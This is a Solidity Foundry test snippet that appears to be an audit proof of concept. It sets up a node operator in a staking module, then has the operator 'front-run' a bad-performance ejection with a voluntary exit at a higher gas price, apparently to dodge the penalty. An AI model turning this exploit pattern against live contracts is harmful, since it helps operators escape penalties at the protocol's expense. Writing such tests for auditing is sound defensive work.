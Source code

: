 ```solidity
        bytes memory signature = bytes.concat(new bytes(64), abi.encodePacked(keccak256("operatorsig")));
        
        // Add node operator
        vm.startPrank(operatorAddress);
        uint256 nodeOperatorId = permissionlessGate.addNodeOperatorETH{value: 50 ether}(
            1, // keysCount
            pubkey,
            signature,
            NodeOperatorManagementProperties({
                managerAddress: operatorAddress,
                rewardAddress: operatorAddress,
                extendedManagerPermissions: false
            }),
            address(0) // no referrer
        );
        vm.stopPrank();
        
        console.log("Node Operator ID:", nodeOperatorId);
        uint256 keyIndex = 0;
        
        // Simulate deposited keys via staking router
        address stakingRouter = csm.getRoleMember(csm.STAKING_ROUTER_ROLE(), 0);
        vm.startPrank(stakingRouter);
        csm.obtainDepositData(1, ""); 
            console.log("Keys marked as deposited via obtainDepositData");
        vm.stopPrank();
        
        uint256 depositedKeys = csm.getNodeOperatorTotalDepositedKeys(nodeOperatorId);
        console.log("Deposited keys:", depositedKeys);
        
        // STEP 1: Bad performance penalty 
        vm.txGasPrice(20 gwei); // Gas paid to execute the first transaction
        vm.startPrank(address(strikes));
        
        console.log("=== Executing ejectBadPerformer (20 gwei) ===");
        bool isWithdrawnBefore = csm.isValidatorWithdrawn(nodeOperatorId, keyIndex);
        console.log("Withdrawn before penalty:", isWithdrawnBefore);
        
        ejector.ejectBadPerformer{value: 1 ether}(
            nodeOperatorId,
            keyIndex,
            refundEOA // Use EOA to avoid fallback issues
        ); 
        vm.stopPrank();
        
        // PASO 2: Front-run with voluntary exit 
        vm.txGasPrice(50 gwei); // Gas paid to execute the second transaction
        vm.startPrank(operatorAddress);
        
        console.log("=== Executing voluntaryEject Front-Run (50 gwei) ===");
        
        ejector.voluntaryEject{value: 1 ether}(
            nodeOperatorId, 
            keyIndex, 
            1, 
            refundEOA 
        );
        vm.stopPrank();
    } 
```
